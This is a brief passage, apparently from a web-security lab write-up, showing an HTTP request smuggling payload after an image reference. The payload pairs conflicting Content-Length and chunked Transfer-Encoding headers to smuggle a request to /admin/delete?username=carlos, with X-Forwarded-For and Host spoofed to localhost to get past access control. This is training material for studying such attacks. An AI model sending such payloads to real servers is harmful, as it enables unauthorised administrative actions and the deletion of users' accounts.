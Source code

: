 ![img](media/42097033463a8a6968e5a4f30ecbd1b9.png)

And then delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/delete?username=carlos HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

